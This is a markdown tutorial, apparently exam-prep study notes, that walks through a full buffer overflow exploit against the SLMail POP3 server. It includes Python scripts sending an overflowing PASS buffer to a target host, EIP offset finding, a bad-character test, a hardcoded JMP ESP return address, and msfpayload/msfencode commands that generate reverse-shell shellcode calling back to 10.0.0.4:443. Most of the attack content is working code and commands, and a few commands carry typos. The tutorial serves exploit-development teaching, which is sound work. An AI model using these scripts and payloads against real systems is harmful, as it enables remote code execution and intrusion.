









# Win32 Buffer Overflow Exploitation

## Replicating the Crash

- Our first task in the exploitation process is to write a simple script that will replicate our observed crash, without having to run the fuzzer each time.

```python
#!/usr/bin/python
import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer = 'A' * 2700
try:
  print "\nSending evil buffer..."
  s.connect(('10.0.0.22',110))
  data = s.recv(1024)
  s.send('USER username' +'\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

## Controlling EIP

- Getting control of the EIP register is a crucial step of exploit development.

- For this reason, it is vital that we locate those 4 A’s that overwrite our EIP register in the buffer.
- There are two common ways to do this:

### Binary Tree Analysis

- Instead of 2700 A’s, we send 1350 A'ʹs and 1350 B'ʹs.
- If EIP is overwritten by B'ʹs, we know the four bytes reside in the second half of the buffer.
- We then change the 1350 B'ʹs to 675 B'ʹs and 675 C'ʹs, and send the buffer again.
- If EIP is overwritten by C'ʹs, we know that the four bytes reside in the 2000–2700 byte range.
- We continue splitting the specific buffer until we reach the exact four bytes that overwrite EIP.
- Mathematically, this should happen in seven iterations.

### Sending a Unique String

- The faster method of identifying these four bytes is to send a unique string of 2700 bytes, identify the 4 bytes that overwrite EIP, and then locate those four bytes in our unique buffer.
- __pattern_create.rb__ is a Ruby tool for creating and locating such buffers, and can be found as part of the Metasploit Framework exploit development scripts.

```Shell
> locate pattern_create
> /usr/share/metasploit-framework/tools/patte_create.rb 2700
```

- We can now use the companion to pattern_create, pattern_offset.rb, to discover the offset of these specific 4 bytes in our unique byte string.



```Shell
> /usr/share/metasploit-framework/tools/pattern_offset.rb 39694438
# running resutl :[*] Exact match at offset 2606
```

- The pattern_offset.rb script reports these 4 bytes being located at offset 2606 of the 2700 bytes.
- Let’s translate this to a new modified buffer string, and see if we can control the EIP register. We modify our exploit to contain the following buffer string

```python
buffer = "A" * 2606 + "B" * 4 + "C" * 90
```



- Sending this new buffer to the SLMail POP3 server produces the following crash in our debugger. Once again, take note of the ESP and EIP registers.
- This time, the ESP has a different value than our first crash. The EIP register is cleanly overwritten by B’s (\x42), signifying that our calculations were correct, and we can now control the execution flow of the SLMail application.

- Where, exactly, do we redirect the execution flow, now that we control the EIP register?
- Part of our buffer can contain the code (or shellcode) we would like to have executed by the SLMail application, such as a reverse shell.

### Locating Space for Your Shellcode

- The Metasploit Framework can automatically generate shellcode payloads.
- A standard reverse shell payload requires about 350-400 bytes of space.
- Looking back at the last crash, we can see that the ESP register points directly to the beginning of our buffer of C’s.



- However, on counting those C’s, we notice that we have a total of 74 of them – not enough to contain a 350-byte payload.
- One easy way out of this is simply to try to increase our buffer length from 2700 bytes to 3500 bytes, and see if this results in a larger buffer space for our shellcode.

```python
buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
```



### Checking for Bad Characters

- Depending on the application, vulnerability type, and protocols in use, there may be certain characters that are considered “bad” and should not be used in your buffer, return address, or shellcode.
- One example of a common bad character (especially in buffer overflows caused by unchecked string copy operations) is the null byte (0x00).
- This character is considered bad because a null byte is also used to terminate a string copy operation, which would effectively truncate our buffer to wherever the first null byte appears.
- Another example of a bad character, specific to the POP3 PASS command, is the carriage return (0x0D), which signifies to the application that the end of the password has been reached.
- #### An easy way to do this is to send all possible characters, from 0x00 to 0xff, as part of our buffer, and see how these characters are dealt with by the application, after the crash occurs

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer="A"*2606 + "B"*4 + badchars

try:
  print "\nSending evil buffer..."
  s.connect(('10.0.0.22',110))
  data = s.recv(1024)
  s.send('USER username' +'\r\n')
  data  = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  s.close()
  print "\nDone!"
except:
  print "Could not connect to POP3!"
```

- The resulting memory dump for the ESP register shows that the character 0x0A seems to have truncated the rest of the buffer that comes after it.



- We remove the \x0A character from our list, and resend the payload. Looking at the resulting buffer, in memory, we see the following output, in the debugger



- The only other problem we see occurs between 0x0C and 0x0E, which means that the character 0x0D is the culprit, but we should have already anticipated this. All the other characters seem to have no issues with SLMail, and do not get truncated, or mangled.
- To summarize, our buffer should not include in any way the following characters: 0x00, 0x0A, 0x0D.

### Redirecting the Execution Flow

- Our next task is finding a way to redirect the execution flow to the shellcode located at the memory address that the ESP register is pointing to, at crash time.
- The most intuitive thing to do would be to try replacing the B’s that overwrite EIP with the address that pops up in the ESP register, at the time of the crash.
- However, as you should have noticed from the past few debugger restarts, the value of ESP changes, from crash to crash. Therefore, hardcoding a specific stack address would not provide a reliable way of getting to our buffer.
- This is because stack addresses change often, especially in threaded applications such as SLMail, as each thread has its reserved stack memory region allocated by the operating system.

#### Finding a Return Address

- If we can find an accessible, reliable address in memory that contains an instruction such as __JMP ESP__, we could jump to it, and in turn end up at the address pointed to, by the ESP register, at the time of the jump.
- If we can find an accessible, reliable address in memory that contains an instruction such as JMP ESP, we could jump to it, and in turn end up at the address pointed to, by the ESP register, at the time of the jump.
- But how do we find such an address?
- To our aid comes the Immunity Debugger script, __mona.py__. This script will help us identify modules in memory that we can search for such a “return address”, which in our case is a JMP ESP command.
- ##### We will need to make sure to choose a module with the following criteria

1. No memory protections such as DEP and ASLR present.
1. Has a memory range that does not contain bad characters

- Looking at the output of the !mona modules command within Immunity Debugger shows the following output.



- The mona.py script has identified the SLMCF.DLL as not being affected by any memory protection schemes, as well as not being rebased on each reboot. This means that this DLL will always reliably load to the same address. Now, we need to find a naturally occurring JMP ESP (or equivalent) instruction within this DLL, and identify at what address this instruction is located.
- Let’s take a closer look at the memory mapping of this DLL.


- If this application were compiled with DEP support, our JMP ESP address would have to be located in the code (.text) segment of the module, as that is the only segment with both Read (R) and Executable (E) permissions.
- However, since no DEP is enabled, we are free to use instructions from any address in this module.
- As searching for a JMP ESP address from within Immunity Debugger will only display addresses from the code section, we will need to run a more exhaustive binary search for a JMP ESP, or equivalent, opcode.
- To find the opcode equivalent to JMP ESP, we can use the Metasploit NASM Shell ruby script:

```Shell
> /usr/share/metasploit-­‐framework/tools/nasm_shell.rb
nasm > jmp esp
# result : 00000000 FFE4           jmp esp
```

- Now that we know what we are looking for, we can search for this opcode in all the sections of the slmfc.dll file using the Mona script:



- Several possible addresses are found containing a JMP ESP instruction.
- We choose one which does not contain any bad characters, such as 0x5f4a358f, and double-check the contents of this address, inside the debugger.


- Perfect! Address 0x5f4a358f in SLMFC.dll contains a JMP ESP instruction.
- If we redirect EIP to this address at the time of the crash, a JMP ESP instruction will be executed, which will lead the execution flow into our shellcode.
- We can test this assumption by modifying our payload string to look similar to the following line, and place a memory breakpoint at the address 0x5f4a358f, before again running our script in the debugger.

```python
buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390
```

- The return address is written the wrong way around, as the x86 architecture stores addresses in little endian format, where the low-order byte of the number is stored in memory at the lowest address, and the high-order byte at the highest address.
- Using F2, we place a breakpoint on the return address, and run our exploit again, and we see output similar to the following.



### Generating Shellcode with Metasploit

- The msfpayload command can autogenerate over 275 shellcode payload options

```Shell
> msfpayload –l
```

- We will use a basic payload called __windows/shell_reverse_tcp__, which acts much like a reverse shell netcat payload.

```Shell
# The msfpayload script will generate C formatted (C parameter) shellcode
> msfpayload windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 C
```

- That was easy enough, however we can immediately identify bad characters in this shellcode, such as null bytes.
- We will need to encode this shellcode using the Metasploit Framework __msfencode__ tool.
- We will also need to provide the msfencode script the specific bad characters we wish to avoid, in the resulting shellcode. Notice that msfencode needs raw shellcode (R parameter) as input.

```Shell
> msfpayload windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 R | msfencode -b "\x00\x0a\x0d"
```

- The resulting shellcode will send a reverse shell to 10.0.0.4 on port 443, contains no bad characters, and is 341 bytes long.
